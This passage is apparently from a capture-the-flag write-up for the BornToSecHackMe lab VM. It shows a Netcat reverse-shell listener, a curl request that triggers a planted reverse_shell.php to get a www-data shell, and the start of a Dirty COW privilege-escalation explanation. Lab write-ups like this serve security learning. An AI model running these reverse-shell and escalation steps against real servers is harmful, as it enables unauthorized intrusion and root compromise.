 After that, I set up a listener on my local machine or VM using Netcat:

```
nc -lvnp 4444
```

**`nc`**: This is the Netcat command

**`-l`**: This option tells Netcat to listen for incoming connection

**`-v`**: This stands for "verbose." It provides more detailed output

**`-n`**: This option prevents DNS lookups.

**`-p 4444`**: This specifies the port number (`4444`) on which the listener will wait for incoming connections.

I made an HTTP request to a web server, specifically targeting a PHP file that may contain malicious code:

```bash
curl -k https://10.13.100.236/forum/templates_c/reverse_shell.php
```

Then, I can execute command-line instructions as the user `www-data`. For example:

```bash
www-data@BornToSecHackMe:/var/www/forum/templates_c$ whoami
whoami
www-data
www-data@BornToSecHackMe:/var/www/forum/templates_c$
```

## Privilege escalation

After checking the kernel release date, I found it to be **Wed Sep 9 11:27:47 UTC 2015**. I did some research and discovered that vulnerabilities like **Dirty COW** were present in the operating system around that time.

```jsx
www-data@BornToSecHackMe:/var/www/forum/templates_c$ uname -a
uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
www-data@BornToSecHackMe:/var/www/forum/templates_c
```

**Dirty COW** (CVE-2016-5195) is a well-known privilege escalation vulnerability in the Linux kernel, discovered in October 2016. It stands for **"Copy-On-Write"** and affects how the Linux kernel handles this memory management feature.

Here’s a brief explanation:

### What is Dirty COW?

- **Copy-On-Write (COW)** is a mechanism that allows processes to share memory pages until a write operation occurs. Once a process attempts to modify a shared page, a new copy of the page is created for that process.
- The **Dirty COW vulnerability** occurs because the kernel improperly handles this mechanism, allowing unprivileged users to write to read-only memory, thus "dirtying" the memory.
